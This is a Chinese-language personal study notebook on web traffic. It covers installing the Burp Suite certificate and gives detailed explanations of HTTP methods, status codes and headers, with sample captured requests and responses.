# MY NOTE

# Tips

杂乱小技巧

### burpsuit证书



找到这个


选择第一个以.der结尾



安装证书



当前用户



选第二个


然后重新打开bp浏览器就行

# 7.16

学习文章

```
https://blog.csdn.net/Hardworking666/article/details/123833192
```

## 流量分析

### 报文分析


```
① 是请求方法，GET 和 POST 是最常见的 HTTP 方法，除此以外还包括 DELETE、HEAD、OPTIONS、PUT、TRACE。不过，当前的大多数浏览器只支持 GET 和 POST，Spring 3.0 提供了一个 HiddenHttpMethodFilter ，允许你通过“_method”的表单参数指定这些特殊的 HTTP 方法（实际上还是通过 POST 提交表单）。服务端配置了 HiddenHttpMethodFilter 后，Spring 会根据 _method 参数指定的值模拟出相应的 HTTP 方法，这样，就可以使用这些 HTTP 方法对处理方法进行映射了。
② 为请求对应的 URL 地址，它和报文头的 Host 属性组成完整的请求 URL，
③ 是协议名称及版本号。
④ 是 HTTP 的报文头，报文头包含若干个属性，格式为“属性名:属性值”，服务端据此获取客户端的信息。
⑤ 是报文体，它将一个页面表单中的组件值通过 param1=value1&param2=value2 的键值对形式编码成一个格式化串，它承载多个请求参数的数据。不但报文体可以传递请求参数，请求 URL 也可以通过类似于“/chapter15/user.html? param1=value1&param2=value2”的方式传递请求参数。
```




**常见状态码**

```
200 OK 处理成功！
303 See Other 我把你 redirect 到其它的页面，目标的 URL 通过响应报文头的 Location 告诉你。
304 Not Modified 告诉客户端，你请求的这个资源至你上次取得后，并没有更改，你直接用你本地的缓存吧，我很忙哦，你能不能少来烦我啊！
404 Not Found 你最不希望看到的，即找不到页面。如你在 google 上找到一个页面，点击这个链接返回 404，表示这个页面已经被网站删除了。
500 Internal Server Error 看到这个错误，你就应该查查服务端的日志了，肯定抛出了一堆异常。
```

### 请求方法

根据 HTTP 标准，HTTP 请求可以使用多种请求方法。

HTTP1.0 定义了三种请求方法： GET, POST 和 HEAD 方法。

HTTP1.1 新增了六种请求方法：OPTIONS、PUT、PATCH、DELETE、TRACE 和 CONNECT 方法。

```
GET : 请求指定的页面信息，并返回实体主体。
HEAD : 类似于 GET 请求，只不过返回的响应中没有具体的内容，用于获取报头
POST : 向指定资源提交数据进行处理请求（例如提交表单或者上传文件）。数据被包含在请求体中。POST 请求可能会导致新的资源的建立和/或已有资源的修改。
PUT : 从客户端向服务器传送的数据取代指定的文档的内容。
DELETE : 请求服务器删除指定的页面。
CONNECT : HTTP/1.1 协议中预留给能够将连接改为管道方式的代理服务器。
OPTIONS : 允许客户端查看服务器的性能。
TRACE : 回显服务器收到的请求，主要用于测试或诊断。
PATCH : 是对 PUT 方法的补充，用来对已知资源进行局部更新 。
```

#### HTTP headers

通常 HTTP 消息包括客户机向服务器的请求消息和服务器向客户机的响应消息。这两种类型的消息由一个起始行，一个或者多个头域，一个只是头域结束的空行和可选的消息体组成。HTTP 的头域包括通用头，请求头，响应头和实体头四个部分。每个头域由一个域名，冒号（:）和域值三部分组成。域名是大小写无关的，域值前可以添加任何数量的空格符，头域可以被扩展为多行，在每行开始处，使用至少一个空格或制表符。

#### 通用头域

通用头域包含请求和响应消息都支持的头域，通用头域包含 Cache-Control、 Connection、Date、Pragma、Transfer-Encoding、Upgrade、Via。对通用头域的扩展要求通讯双方都支持此扩展，如果存在不支持的通用头域，一般将会作为实体头域处理。下面简单介绍几个在 UPnP 消息中使用的通用头域。

##### Cache-Control 头域

Cache -Control 指定请求和响应遵循的缓存机制。在请求消息或响应消息中设置 Cache-Control 并不会修改另一个消息处理过程中的缓存处理过程。（cache高度缓存器）

请求时的缓存指令包括 no-cache、no-store、max-age、 max-stale、min-fresh、only-if-cached

响应消息中的指令包括

```
Public 指示响应可被任何缓存区缓存；
Private 指示对于单个用户的整个或部分响应消息，不能被共享缓存处理。这允许服务器仅仅描述当用户的部分响应消息，此响应消息对于其他用户的请求无效；
no-cache 指示请求或响应消息不能缓存；
no-store 用于防止重要的信息被无意的发布。在请求消息中发送将使得请求和响应消息都不使用缓存；
max-age 指示客户机可以接收生存期不大于指定时间（以秒为单位）的响应；
min-fresh 指示客户机可以接收响应时间小于当前时间加上指定时间的响应；
max-stale 指示客户机可以接收超出超时期间的响应消息。如果指定 max-stale 消息的值，那么客户机可以接收超出超时期指定值之内的响应消息。
```

##### Date 头域

date 头域表示消息发送的时间，时间的描述格式由 rfc822 定义。例如，Date:Mon,31Dec200104:25:57GMT。Date 描述的时间表示世界标准时，换算成本地时间，需要知道用户所在的时区。

##### Pragma 头域

Pragma 头域用来包含实现特定的指令，最常用的是 Pragma:no-cache。在 HTTP/1.1 协议中，它的含义和 Cache-Control:no-cache 相同。

##### Connection 头域

**Connection 表示连接状态**

请求
close（告诉 WEB 服务器或者代理服务器，在完成本次请求的响应后，断开连接，不要等待本次连接的后续请求了）。
keepalive（告诉 WEB 服务器或者代理服务器，在完成本次请求的响应后，保持连接，等待本次连接的后续请求）。
响应

close（连接已经关闭）。
Keep-Alive：如果浏览器请求保持连接，则该头部表明希望 WEB 服务器保持连接多长时间（秒）。例如：Keep-Alive：300

请求消息(请求头)
请求消息的第一行为下面的格式：Method Request-URI HTTP-Version

Method 表示对于 Request-URI 完成的方法，这个字段是大小写敏感的，包括 OPTIONS、GET、HEAD、POST、PUT、DELETE、TRACE。方法 GET 和 HEAD 应该被所有的通用 WEB 服务器支持，其他所有方法的实现是可选的，GET 方法取回由 Request-URI 标识的信息，
**HEAD 方法**也是取回由 Request-URI 标识的信息，只是可以在响应时，不返回消息体；
**POST 方法**可以请求服务器接收包含在请求中的实体信息，可以用于提交表单，向新闻组、BBS、邮件群组和数据库发送消息。
**Request-URI** 表示请求的URL。Request-URI 遵循 URI 格式，在此字段为星号（*）时，说明请求并不用于某个特定的资源地址，而是用于服务器本身。
**HTTP- Version** 表示支持的 HTTP 版本，例如为 HTTP/1.1。
请求头域允许客户端向服务器传递关于请求或者关于客户机的附加信息。请求头域可能包含下列字段 Accept、Accept-Charset、Accept-Encoding、Accept-Language、Authorization、From、Host、If-Modified-Since、If-Match、If-None-Match、If-Range、If-Unmodified-Since、Max-Forwards、 Proxy-Authorization、Range、Referer、User-Agent。对请求头域的扩展要求通讯双方都支持，如果存在不支持的请求头域,一般将会作为实体头域处理。

典型的请求消息

```
GET http://download.microtool.de:80/somedata.exe get请求 请求后面的网址
Host: download.microtool.de 请求的目标域名或网站
Accept:*/* 表示自己接受什么介质类型 这里/表示任何类型
Pragma: no-cache 无缓存
Cache-Control: no-cache 无缓存 
Referer: http://download.microtool.de/ 来源ip
User-Agent:Mozilla/4.04[en](Win95;I;Nav) 用户代理，也就是浏览器
Range:bytes=554554-制定客户端希望请求的资源范围
```

```
上例第一行表示 HTTP 客户端（可能是浏览器、下载程序）通过 GET 方法获得指定 URL 下的文件。

Host头域指定请求资源的 Intenet 主机和端口号，必须表示请求 url 的原始服务器或网关的位置。HTTP/1.1 请求必须包含主机头域，否则系统会以 400 状态码返回；
Accept：告诉 WEB 服务器自己接受什么介质类型，/ 表示任何类型，type/* 表示该类型下的所有子类型，type/sub-type。
Accept-Charset： 浏览器申明自己接收的字符集。
Authorization：当客户端接收到来自WEB服务器的 WWW-Authenticate 响应时，用该头部来回应自己的身份验证信息给 WEB 服务器。
```

**Range**

```
表示头500个字节：bytes=0-499
表示第二个500字节：bytes=500-999
表示最后500个字节：bytes=-500
表示500字节以后的范围：bytes=500-
第一个和最后一个字节：bytes=0-0,-1
同时指定几个范围：bytes=500-600,601-999
```

但是服务器可以忽略此请求头，如果无条件 GET 包含 Range 请求头，响应会以状态码 206（PartialContent）返回而不是以 200 （OK）

### 响应消息(响应头)

响应信息如内容类型，类型的长度，服务器信息，设置 Cookie

响应消息的第一行为下面的格式：HTTP-Version Status-Code Reason-Phrase

HTTP -Version 表示支持的 HTTP 版本，例如为 HTTP/1.1。
Status-Code 是一个三个数字的结果代码。
Status-Code 主要用于机器自动识别，Reason-Phrase 主要用于帮助用户理解。Status-Code 的第一个数字定义响应的类别，后两个数字没有分类的作用。第一个数字可能取5个不同的值

```
1xx : 信息响应类，表示接收到请求并且继续处理
2xx : 处理成功响应类，表示动作被成功接收、理解和接受
3xx : 重定向响应类，为了完成指定的动作，必须接受进一步处理
4xx : 客户端错误，客户请求包含语法错误或者是不能正确执行
5xx : 服务端错误，服务器不能正确执行一个正确的请求
```

Reason-Phrase 给 Status-Code 提供一个简单的文本描述。
响应头域允许服务器传递不能放在状态行的附加信息，这些域主要描述服务器的信息和 Request-URI 进一步的信息。响应头域包含 Age、Location、Proxy-Authenticate、Public、Retry-After、Server、Vary、Warning、WWW-Authenticate。对响应头域的扩展要求通讯双方都支持，如果存在不支持的响应头 域，一般将会作为实体头域处理。

典型的响应消息：

```
HTTP/1.0 200 OK 请求结果
Date:Mon,31Dec200104:25:57MGT 响应时间
Server:Apache/1.3.14(Unix) 请求到的服务
Content-type:text/html 返回实体类型
Last-modified:Tue,17Apr200106:46:28GMT  资源最后修改时间
Etag:"a030f020ac7c01:1e9f" 表示网络资源版本
Content-length:39725426 实际传送回来的字节数
Content-range:bytes554554-40279979/40279980 实际传送范围
content-encoding 文档的编码方法
```

Location 响应头用于重定向接收者到一个新 URI 地址。Server 响应头包含处理请求的原始服务器的软件信息。此域能包含多个产品标识和注释，产品标识一般按照重要性排序

实体消息(实体头和实体)
请求消息和响应消息都可以包含实体信息，实体信息一般由实体头域和实体组成。

实体头域包含关于实体的原信息，实体头包括 Allow、Content-Base、Content-Encoding、Content-Language、Content-Length、Content-Location、Content-MD5、Content-Range、Content-Type、Etag、Expires、Last-Modified、extension-header。extension-header 允许客户端定义新的实体头，但是这些域可能无法为接受方识别。

Content-Type 实体头用于向接收方指示实体的介质类型，指定 HEAD 方法送到接收方的实体介质类型，或 GET 方法发送的请求介质类型，表示后面的文档属于什么 MIME 类型。
Content-Length 表示实际传送的字节数。
Allow 实体头至服务器支持哪些请求方法（如 GET、POST 等）。
Content-Range 表示传送的范围，用于指定整个实体中的一部分的插入位置，他也指示了整个实体的长度。在服务器向客户返回一个部分响应，它必须描述响应覆盖的范围和整个实体长度。
一般格式：Content-Range:bytes-unitSPfirst-byte-pos-last-byte-pos/entity-legth

例如，传送头500个字节次字段的形式：Content-Range:bytes0-499/1234 如果一个 http 消息包含此节（例如，对范围请求的响应或对一系列范围的重叠请求）。
Content-Encoding 指文档的编码（Encode）方法。实体可以是一个经过编码的字节流，它的编码方式由 Content-Encoding 或 Content-Type 定义，它的长度由 Content-Length 或 Content-Range 定义。

##### X-Forwarded-For

通过名字就知道，X-Forwarded-For 是一个 HTTP 扩展头部。HTTP/1.1（RFC 2616）协议并没有对它的定义，它最开始是由 Squid 这个缓存代理软件引入，用来表示 HTTP 请求端真实 IP。如今它已经成为事实上的标准，被各大 HTTP 代理、负载均衡等转发服务广泛使用，并被写入 RFC 7239（Forwarded HTTP Extension）标准之中。

X-Forwarded-For 请求头格式非常简单，就这样：

X-Forwarded-For: client, proxy1, proxy2
可以看到，XFF 的内容由「英文逗号 + 空格」隔开的多个部分组成，最开始的是离服务端最远的设备 IP，然后是每一级代理设备的 IP。

如果一个 HTTP 请求到达服务器之前，经过了三个代理 Proxy1、Proxy2、Proxy3，IP 分别为 IP1、IP2、IP3，用户真实 IP 为 IP0，那么按照 XFF 标准，服务端最终会收到以下信息：

X-Forwarded-For: IP0, IP1, IP2
Proxy3 直连服务器，它会给 XFF 追加 IP2，表示它是在帮 Proxy2 转发请求。列表中并没有 IP3，IP3 可以在服务端通过 Remote Address 字段获得。我们知道 HTTP 连接基于 TCP 连接，HTTP 协议中没有 IP 的概念，Remote Address 来自 TCP 连接，表示与服务端建立 TCP 连接的设备 IP，在这个例子里就是 IP3。

Remote Address 无法伪造，因为建立 TCP 连接需要三次握手，如果伪造了源 IP，无法建立 TCP 连接，更不会有后面的 HTTP 请求。不同语言获取 Remote Address 的方式不一样，例如 php 是 $_SERVER[“REMOTE_ADDR”]，Node.js 是 req.connection.remoteAddress，但原理都一样。

实例
HTTP 请求消息头部实例

```
Host：rss.sina.com.cn 请求地址
User-Agent：Mozilla/5、0 (Windows; U; Windows NT 5、1; zh-CN; rv:1、8、1、14) Gecko/20080404 Firefox/2、0、0、14 浏览器
Accept：text/xml,application/xml,application/xhtml+xml,text/html;q=0、9,text/plain;q=0、 8,image/png,*/*;q=0、5   返回类型
Accept-Language：zh-cn,zh;q=0、5  接受语言
Accept-Encoding：gzip,deflate  申明自己的接受编码类型
Accept-Charset：gb2312,utf-8;q=0、7,*;q=0、7 申明字符集
Keep-Alive：300 保持代理
Connection：keep-alive  保持存活代理
Cookie：userId=C5bYpXrimdmsiQmsBPnE1Vn8ZQmdWSm3WRlEB3vRwTnRtW           <- Cookie
If-Modified-Since：Sun, 01 Jun 2008 12:05:30 GMT  最后一次修改时间
Cache-Control：max-age=0  缓存可以接收生存期不大于指定时间（以秒为单位）的响应；
```

HTTP 响应消息头部实例

```
Status：OK - 200                                        <- 响应状态码，表示 web 服务器处理的结果。
Date：Sun, 01 Jun 2008 12:35:47 GMT  时间
Server：Apache/2、0、61 (Unix)  服务器
Last-Modified：Sun, 01 Jun 2008 12:35:30 GMT 最后一次修改时间
Accept-Ranges：bytes  接受范围
Content-Length：18616  实际传送回来的字节数
Cache-Control：max-age=120  
Expires：Sun, 01 Jun 2008 12:37:47 GMT  
Content-Type：application/xml   返回类型
Age：2  表明该实体从产生到现在经过多长时间了
X-Cache：HIT from 236-41、D07071951、sina、com、cn      <- 反向代理服务器使用的 HTTP 头部
Via：1.0 236-41.D07071951.sina.com.cn:80 (squid/2.6.STABLE13)
Connection：close 代理关闭
```

### 头部详解

#### Accept

告诉 WEB 服务器自己接受什么介质类型，/ 表示任何类型，type/* 表示该类型下的所有子类型，type/sub-type。

##### Accept-Charset

浏览器申明自己接收的字符集

##### Accept-Encoding

浏览器申明自己接收的编码方法，通常指定压缩方法，是否支持压缩，支持什么压缩方法（gzip，deflate）

##### Accept-Language

浏览器申明自己接收的语言,语言跟字符集的区别：中文是语言，中文有多种字符集，比如 big5，gb2312，gbk 等等。

#### Age

当代理服务器用自己缓存的实体去响应请求时，用该头部表明该实体从产生到现在经过多长时间了。

#### Authorization

当客户端接收到来自 WEB 服务器的 WWW-Authenticate 响应时，用该头部来回应自己的身份验证信息给 WEB 服务器。

#### Cache-Control

请求：no-cache（不要缓存的实体，要求现在从WEB服务器去取） max-age：（只接受 Age 值小于 max-age 值，并且没有过期的对象） max-stale：（可以接受过去的对象，但是过期时间必须小于 max-stale 值）

#### min-fresh

（接受其新鲜生命期大于其当前 Age 跟 min-fresh 值之和的缓存对象）响应：public(可以用 Cached 内容回应任何用户) private（只能用缓存内容回应先前请求该内容的那个用户） no-cache（可以缓存，但是只有在跟 WEB 服务器验证了其有效后，才能返回给客户端） max-age：（本响应包含的对象的过期时间） ALL: no-store（不允许缓存）

#### Connection

请求：close（告诉 WEB 服务器或者代理服务器，在完成本次请求的响应后，断开连接，不要等待本次连接的后续请求了）。keepalive（告诉 WEB 服务器或者代理服务器，在完成本次请求的响应后，保持连接，等待本次连接的后续请求）。

#### Content-Disposition

在常规的 HTTP 应答中，Content-Disposition 响应头指示回复的内容该以何种形式展示，是以内联的形式（即网页或者页面的一部分），还是以附件的形式下载并保存到本地。在 multipart/form-data 类型的应答消息体中，Content-Disposition 消息头可以被用在 multipart 消息体的子部分中，用来给出其对应字段的相关信息。各个子部分由在 Content-Type 中定义的分隔符分隔。用在消息体自身则无实际意义。

Content-Disposition 消息头最初是在 MIME 标准中定义的，HTTP 表单及 POST 请求只用到了其所有参数的一个子集。只有 form-data 以及可选的 name 和 filename 三个参数可以应用在 HTTP 场景中。

指令

#### name

后面是一个表单字段名的字符串，每一个字段名会对应一个子部分。在同一个字段名对应多个文件的情况下（例如，带有 multiple 属性的 <input type=file> 元素），则多个子部分共用同一个字段名。如果 name 参数的值为 _charset_ ，意味着这个子部分表示的不是一个 HTML 字段，而是在未明确指定字符集信息的情况下各部分使用的默认字符集。

##### filename

后面是要传送的文件的初始名称的字符串。这个参数总是可选的，而且不能盲目使用：路径信息必须舍掉，同时要进行一定的转换以符合服务器文件系统规则。这个参数主要用来提供展示性信息。当与 Content-Disposition: attachment 一同使用的时候，它被用作"保存为"对话框中呈现给用户的默认文件名。

##### filename*

filename 和 filename* 两个参数的唯一区别在于，filename* 采用了 RFC 5987 中规定的编码方式。当 filename 和 filename* 同时出现的时候，应该优先采用 filename*，假如二者都支持的话。

作为消息主体中的消息头

在 HTTP 场景中，第一个参数或者是 inline（默认值，表示回复中的消息体会以页面的一部分或者整个页面的形式展示），或者是 attachment（意味着消息体应该被下载到本地；大多数浏览器会呈现一个“保存为”的对话框，将 filename 的值预填为下载后的文件名，假如它存在的话）。

```
Content-Disposition: inline
Content-Disposition: attachment
Content-Disposition: attachment; filename="filename.jpg"

```

作为 multipart body 中的消息头

在 HTTP 场景中。第一个参数总是固定不变的 form-data；附加的参数不区分大小写，并且拥有参数值，参数名与参数值用等号 = 连接，参数值用双引号括起来。参数之间用分号 ; 分隔。

```
Content-Disposition: form-data
Content-Disposition: form-data; name="fieldName"
Content-Disposition: form-data; name="fieldName"; filename="filename.jpg"
Content-Encoding
```

WEB 服务器表明自己使用了什么压缩方法（gzip，deflate）压缩响应中的对象。例如：Content-Encoding：gzip

#### Content-Language

WEB 服务器告诉浏览器自己响应的对象的语言。

#### Content-Length

WEB 服务器告诉浏览器自己响应的对象的长度。例如：Content-Length: 26012

#### Content-Range

WEB 服务器表明该响应包含的部分对象为整个对象的哪个部分。例如：Content-Range: bytes 21010-47021/47022

#### Content-Type

WEB 服务器告诉浏览器自己响应的对象的类型。例如：Content-Type：application/xml

#### ETag

就是一个对象（比如 URL）的标志值，就一个对象而言，比如一个 html 文件，如果被修改了，其 Etag 也会别修改，所以 ETag 的作用跟 Last-Modified 的作用差不多，主要供 WEB 服务器判断一个对象是否改变了。比如前一次请求某个 html 文件时，获得了其 ETag，当这次又请求这个文件时，浏览器就会把先前获得的 ETag 值发送给WEB 服务器，然后 WEB 服务器会把这个 ETag 跟该文件的当前 ETag 进行对比，然后就知道这个文件有没有改变了。

#### Expired

WEB 服务器表明该实体将在什么时候过期，对于过期了的对象，只有在跟 WEB 服务器验证了其有效性后，才能用来响应客户请求。是 HTTP/1.0 的头部。例如：Expires：Sat, 23 May 2009 10:02:12 GMT

#### Host

客户端指定自己想访问的WEB服务器的域名/IP 地址和端口号。例如：Host：rss.sina.com.cn

#### If-Match

如果对象的 ETag 没有改变，其实也就意味著对象没有改变，才执行请求的动作。

#### If-None-Match

如果对象的 ETag 改变了，其实也就意味著对象也改变了，才执行请求的动作。

#### If-Modified-Since

如果请求的对象在该头部指定的时间之后修改了，才执行请求的动作（比如返回对象），否则返回代码304，告诉浏览器该对象没有修改。例如：If-Modified-Since：Thu,10 Apr 2008 09:14:42 GMT

#### If-Unmodified-Since

如果请求的对象在该头部指定的时间之后没修改过，才执行请求的动作（比如返回对象）

#### If-Range

浏览器告诉 WEB 服务器，如果我请求的对象没有改变，就把我缺少的部分给我，如果对象改变了，就把整个对象给我。浏览器通过发送请求对象的 ETag 或者自己所知道的最后修改时间给 WEB 服务器，让其判断对象是否改变了。总是跟 Range 头部一起使用。

#### Last-Modified

WEB 服务器认为对象的最后修改时间，比如文件的最后修改时间，动态页面的最后产生时间等等。例如：Last-Modified：Tue, 06 May 2008 02:42:43 GMT

#### Location

WEB 服务器告诉浏览器，试图访问的对象已经被移到别的位置了，到该头部指定的位置去取。例如：Location http://i0.sinaimg.cn/dy/deco/2008/0528/sina0.gif Location 通常不是直接设置的，而是通过 HttpServletResponse 的 sendRedirect 方法，该方法同时设置状态代码为 302。

#### Pramga

主要使用 Pramga: no-cache，相当于 Cache-Control： no-cache。例如：Pragma：no-cache

#### Proxy-Authenticate

代理服务器响应浏览器，要求其提供代理身份验证信息。

#### Proxy-Authorization

浏览器响应代理服务器的身份验证请求，提供自己的身份信息。

#### Range

浏览器（比如 Flashget 多线程下载时）告诉 WEB 服务器自己想取对象的哪部分。例如：Range:bytes=1173546-

#### Referer

浏览器向 WEB 服务器表明自己是从哪个网页/URL 获得/点击当前请求中的网址/URL。例如：Referer：http://www.sina.com/

#### Server

WEB 服务器表明自己是什么软件及版本等信息。例如：Server：Apache/2.0.61 (Unix)

#### User-Agent

浏览器表明自己的身份（是哪种浏览器）。 例如：User-Agent：Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN; rv:1.8.1.14) Gecko/20080404 Firefox/2、0、0、14

#### Transfer-Encoding

WEB 服务器表明自己对本响应消息体（不是消息体里面的对象）作了怎样的编码，比如是否分块（chunked）。例如：Transfer-Encoding:chunked

#### Vary

WEB 服务器用该头部的内容告诉 Cache 服务器，在什么条件下才能用本响应所返回的对象响应后续的请求。假如源WEB服务器在接到第一个请求消息时，其响应消息的头部为： Content-Encoding: gzip; Vary: Content-Encoding 那么 Cache 服务器会分析后续请求消息的头部，检查其 Accept-Encoding，是否跟先前响应的 Vary 头部值一致，即是否使用相同的内容编码方法，这样就可以防止 Cache 服务器用自己 Cache 里面压缩后的实体响应给不具备解压能力的浏览器。例如：Vary：Accept-Encoding

#### Via

列出从客户端到 OCS 或者相反方向的响应经过了哪些代理服务器，他们用什么协议（和版本）发送的请求。当客户端请求到达第一个代理服务器时，该服务器会在自己发出的请求里面添加 Via 头部，并填上自己的相关信息，当下一个代理服务器收到第一个代理服务器的请求时，会在自己发出的请求里面复制前一个代理服务器的请求的 Via 头部，并把自己的相关信息加到后面，以此类推，当 OCS 收到最后一个代理服务器的请求时，检查 Via 头部，就知道该请求所经过的路由。例如：Via：1.0 236.D0707195.sina.com.cn:80 (squid/2.6.STABLE13)

#### Refresh

表示浏览器应该在多少时间之后刷新文档，以秒计。除了刷新当前文档之外，你还可以通过 setHeader(“Refresh”, “5; URL=http://host/path”) 让浏览器读取指定的页面。注意这种功能通常是通过设置 HTML 页面 HEAD 区的 ＜META HTTP-EQUIV=“Refresh” CONTENT=“5;URL=http://host/path"＞ 实现，这是因为，自动刷新或重定向对于那些不能使用 CGI或 Servlet 的 HTML 编写者十分重要。但是，对于 Servlet 来说，直接设置 Refresh 头更加方便。注意 Refresh 的意义是"N 秒之后刷新本页面或访问指定页面”，而不是"每隔N秒刷新本页面或访问指定页面"。因此，连续刷新要求每次都发送一个 Refresh 头，而发送 204 状态代码则可以阻止浏览器继续刷新，不管是使用 Refresh 头还是 ＜META HTTP-EQUIV=“Refresh” …＞。注意 Refresh 头不属于 HTTP 1.1 正式规范的一部分，而是一个扩展，但 Netscape 和 IE 都支持它。

#### Set-Cookie

设置和页面关联的 Cookie。Servlet 不应使用 response.setHeader(“Set-Cookie”, …) ，而是应使用 HttpServletResponse 提供的专用方法 addCookie。

#### Server

服务器名字。Servlet 一般不设置这个值，而是由 Web 服务器自己设置。

#### WWW-Authenticate

客户应该在 Authorization 头中提供什么类型的授权信息？在包含 401（Unauthorized）状态行的应答中这个头是必需的。例如，response.setHeader(“WWW-Authenticate”, “BASIC realm=＼“executives＼””) 。注意 Servlet 一般不进行这方面的处理，而是让 Web 服务器的专门机制来控制受密码保护页面的访问（例如 .htaccess）。

#### POST **请求数据提交格式**

服务端通常是根据请求头（headers）中的 Content-Type 字段来获知请求中的消息主体是用何种方式编码，再对主体进行解析。所以说到 POST 提交数据方案，包含了 Content-Type 和消息主体编码方式两部分。

快到中午了，张三丰不想去食堂吃饭，于是打电话叫外卖：老板，我要一份[鱼香肉丝]，要 12：30 之前给我送过来哦，我在江湖湖公司研发部，叫张三丰。
这里，你要[鱼香肉丝]相当于 HTTP 报文体，而“12：30之前送过来”，你叫“张三丰”等信息就相当于 HTTP 的请求头。它们是一些附属信息，帮忙你和饭店老板顺利完成这次交易。

application/x-www-form-urlencoded

最基本的 form 表单结构,用于传递字符参数的键值对,请求结构如下

```
POST  HTTP/1.1
Host: www.demo.com
Cache-Control: no-cache
Postman-Token: 81d7b315-d4be-8ee8-1237-04f3976de032
Content-Type: application/x-www-form-urlencoded
```

key=value&testKey=testValue
请求头中的 Content-Type 设置为 application/x-www-form-urlencoded; 提交的的数据,请求 body 中按照 key1=value1&key2=value2 进行编码,key 和 value 都要进行 urlEncode;

#### multipart/form-data

这是上传文件时,最常见的数据提交方式,看一下请求结构

```
POST  HTTP/1.1
Host: www.demo.com
Cache-Control: no-cache
Postman-Token: 679d816d-8757-14fd-57f2-fbc2518dddd9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="key"

value
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="testKey"

testValue
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="imgFile"; filename="no-file"
Content-Type: application/octet-stream

<data in here>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

首先请求头中的 Content-Type 是 multipart/form-data; 并且会随机生成 一个 boundary, 用于区分请求 body 中的各个数据; 每个数据以 --boundary 开始, 紧接着换行,下面是内容描述信息, 接着换2行, 接着是数据; 然后以 --boundary-- 结尾, 最后换行;

文本数据和文件,图片的内容描述是不相同的 文本参数:

```
Content-Disposition: form-data; name="key"
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
```

文件参数:

```
Content-Disposition: form-data; name="imgFile"; filename="no-file"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary
```

**请求响应分析**

```
POST /mmtls/00006a5e HTTP/1.1  请求地址 和协议
Accept: */* 接收所有类型
Cache-Control: no-cache 没有缓存
Connection: Keep-Alive 保持连接
Content-Length: 518 返回长度
Content-Type: application/octet-stream 响应类型
Host: 240e:97c:2f:4001::31 
Upgrade: mmtls
User-Agent: MicroMessenger Client 浏览器
X-Online-Host: 240e:97c:2f:4001::31
```

```
POST /ztbox?action=zpblog&appname=pcsearch&v=2.0&data=%7B%22cateid%22%3A%2299%22%2C%22actiondata%22%3A%7B%22id%22%3A18463%2C%22type%22%3A%220%22%2C%22timestamp%22%3A1720509736335%2C%22content%22%3A%7B%22page%22%3A%22home%22%2C%22source%22%3A%22%22%2C%22from%22%3A%22search%22%2C%22type%22%3A%22display%22%2C%22ext%22%3A%7B%7D%7D%7D%7D HTTP/1.1
Host: mbd.baidu.com 请求地址
Cookie: BIDUPSID=26F559E44D0377585F6E20D0849066ED; PSTM=1720509734; BAIDUID=26F559E44D0377582AB02DF95AEC5097:FG=1
Content-Length: 0 响应对象的长度
Sec-Ch-Ua: "Chromium";v="91", " Not;A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) 浏览器Chrome/91.0.4472.101 Safari/537.36

Content-Type: text/plain;charset=UTF-8  返回响应类型
Accept: */* 接受类型
Origin: https://www.baidu.com 源地址
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
Referer: https://www.baidu.com/  来源地址
Accept-Encoding: gzip, deflate  接收编码类型
Accept-Language: zh-CN,zh;q=0.9  
Connection: close 连接关闭
```


#### 正常请求

```
GET http://download.microtool.de:80/somedata.exe get请求 请求后面的网址
Host: download.microtool.de 请求的目标域名或网站
Accept:*/* 表示自己接受什么介质类型 这里/表示任何类型
Pragma: no-cache 无缓存
Cache-Control: no-cache 无缓存 
Referer: http://download.microtool.de/ 来源ip
User-Agent:Mozilla/4.04[en](Win95;I;Nav) 用户代理，也就是浏览器
Range:bytes=554554-制定客户端希望请求的资源范围
```

```
Host：rss.sina.com.cn 请求地址
User-Agent：Mozilla/5、0 (Windows; U; Windows NT 5、1; zh-CN; rv:1、8、1、14) Gecko/20080404 Firefox/2、0、0、14 浏览器
Accept：text/xml,application/xml,application/xhtml+xml,text/html;q=0、9,text/plain;q=0、 8,image/png,*/*;q=0、5   返回类型
Accept-Language：zh-cn,zh;q=0、5  接受语言
Accept-Encoding：gzip,deflate  申明自己的接受编码类型
Accept-Charset：gb2312,utf-8;q=0、7,*;q=0、7 申明字符集
Keep-Alive：300 保持连接
Connection：keep-alive  跟服务器或者代理服务器的连接状态
Cookie：userId=C5bYpXrimdmsiQmsBPnE1Vn8ZQmdWSm3WRlEB3vRwTnRtW           <- Cookie
If-Modified-Since：Sun, 01 Jun 2008 12:05:30 GMT  最后一次修改时间
Cache-Control：max-age=0  缓存可以接收生存期不大于指定时间（以秒为单位）的响应；
```

#### 典型响应

```
HTTP/1.0 200 OK 请求结果
Date:Mon,31Dec200104:25:57MGT 响应时间
Server:Apache/1.3.14(Unix) 请求到的服务
Content-type:text/html 返回实体类型
Last-modified:Tue,17Apr200106:46:28GMT  资源最后修改时间
Etag:"a030f020ac7c01:1e9f" 表示网络资源版本
Content-length:39725426 实际传送回来的字节数
Content-range:bytes554554-40279979/40279980 实际传送范围
content-encoding 文档的编码方法
```

```
Status：OK - 200                                        <- 响应状态码，表示 web 服务器处理的结果。
Date：Sun, 01 Jun 2008 12:35:47 GMT  时间
Server：Apache/2、0、61 (Unix)  服务器
Last-Modified：Sun, 01 Jun 2008 12:35:30 GMT 最后一次修改时间
Accept-Ranges：bytes  接受范围
Content-Length：18616  实际传送回来的字节数
Cache-Control：max-age=120  
Expires：Sun, 01 Jun 2008 12:37:47 GMT  
Content-Type：application/xml   返回类型
Age：2  表明该实体从产生到现在经过多长时间了
X-Cache：HIT from 236-41、D07071951、sina、com、cn      <- 反向代理服务器使用的 HTTP 头部
Via：1.0 236-41.D07071951.sina.com.cn:80 (squid/2.6.STABLE13)
Connection：close 连接关闭
```

## wireshark流量分析

学习文章

```
